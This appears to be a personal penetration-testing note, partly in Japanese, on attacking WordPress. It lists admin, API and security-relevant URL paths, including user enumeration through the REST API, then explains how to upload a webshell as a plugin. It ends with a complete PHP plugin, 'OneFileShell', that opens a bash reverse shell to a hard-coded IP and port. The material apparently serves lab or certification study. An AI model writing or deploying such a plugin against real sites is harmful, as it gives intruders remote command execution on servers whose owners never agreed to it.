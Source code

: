 ## URLパス一覧

| カテゴリ       | URL パス                              | 説明                          |
| ---------- | ----------------------------------- | --------------------------- |
| ログイン・認証関連  | /wp-login.php                       | ログインページ                     |
|            | /wp-admin/                          | 管理パネル（ログインしていないとリダイレクトされる）  |
|            | /wp-login.php?action=lostpassword   | パスワードリセットページ                |
| 管理パネル      | /wp-admin/edit.php                  | 投稿一覧                        |
|            | /wp-admin/post-new.php              | 新規投稿作成                      |
|            | `/wp-admin/edit.php?post_type=page` | 固定ページ一覧                     |
|            | `/wp-admin/upload.php`              | メディアライブラリ                   |
|            | `/wp-admin/edit-comments.php`       | コメント管理                      |
|            | `/wp-admin/themes.php`              | テーマ設定                       |
|            | `/wp-admin/plugins.php`             | プラグイン管理                     |
|            | `/wp-admin/users.php`               | ユーザー管理                      |
|            | `/wp-admin/tools.php`               | ツールページ                      |
|            | `/wp-admin/options-general.php`     | 一般設定（サイト名など）                |
|            | `/wp-admin/options-permalink.php`   | パーマリンク設定                    |
| API・特殊ファイル | `/wp-json/`                         | WordPress REST APIベースパス     |
|            | `/xmlrpc.php`                       | XML-RPCインターフェース（DoS対象になり得る） |
|            | `/wp-cron.php`                      | 疑似Cron処理（定期タスク）             |
|            | `/readme.html`                      | WordPressのバージョン情報（あれば）      |
|            | `/robots.txt`                       | クロール制御ファイル（隠しディレクトリのヒントあり）  |
| セキュリティ関連   | `/wp-admin/profile.php`             | 自ユーザープロファイル編集ページ            |
|            | `/wp-json/wp/v2/users/`             | REST API経由でのユーザー列挙          |
|            | `/wp-admin/import.php`              | データインポート（旧プラグインの脆弱性チェック対象）  |

## upload webshell
plugins > AddNew > upload plugin(zip file) > activate
![[../../../Pasted image 20250608214402.png]]

# plugin reverse shell
display name is "OneFileShell"
```
<?php
/*
Plugin Name: OneFileShell
Description: Minimal reverse shell
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.182/4444 0>&1'");
?>
```